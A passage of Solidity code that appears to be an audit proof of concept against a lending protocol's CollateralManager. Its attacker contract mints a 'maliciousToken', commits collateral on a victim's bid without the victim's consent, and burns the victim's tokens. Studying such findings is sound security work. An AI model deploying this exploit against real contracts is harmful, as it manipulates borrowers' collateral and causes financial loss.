 ```solidity
        Collateral memory collateral = Collateral({
            _collateralType: CollateralType.ERC20,
            _amount: amount,
            _tokenId: 0,
            _collateralAddress: _tokenAddress
        });
        Test_TestERC20Token(_tokenAddress).transfer(_victim, amount);
        console.log("Before burn , malToken amount at borrower", Test_TestERC20Token(_tokenAddress).balanceOf(address(_victim)));
        cm.commitCollateral(bidId, collateral);
        Test_TestERC20Token(_tokenAddress).destroy(_victim, amount);
        console.log("After burn , malToken amount at borrower", Test_TestERC20Token(_tokenAddress).balanceOf(address(_victim)));
    }

    // function to submit Bid as behalf of a borrower.

    function submitBid(
            TellerV2_Mock _teller,
            CollateralManager collateralManager,
            address _lendingToken,
            uint256 _marketplaceId,
            uint256 _principal,
            uint32 _duration,
            uint16 _APR,
            string calldata _metadataURI,
            address _receiver,
            Collateral[] calldata CollateralInfo
        ) public returns (uint256 bidId) {

        bidId = _teller.submitBid(
            _lendingToken,
            _marketplaceId,
            _principal,
            _duration,
            _APR,
            _metadataURI,
            _receiver
        );
        cm = CollateralManager(collateralManager);
        bool validation = cm.commitCollateral(
            bidId,
            CollateralInfo
        );
        if (validation)
            return bidId;
    }
    
    // function to accept id as behalf of a lender.

    function accept(TellerV2_Mock _teller, uint bidId) public{
        _teller.lenderAcceptBid(1, bidId);
    }

    function mint() public returns(Test_TestERC20Token){
        Test_TestERC20Token malToken = new Test_TestERC20Token("maliciousToken", "malToken", 1e24, 18);
        return malToken;

    }
}

contract TellerV2_Mock is TellerV2SolMock {
```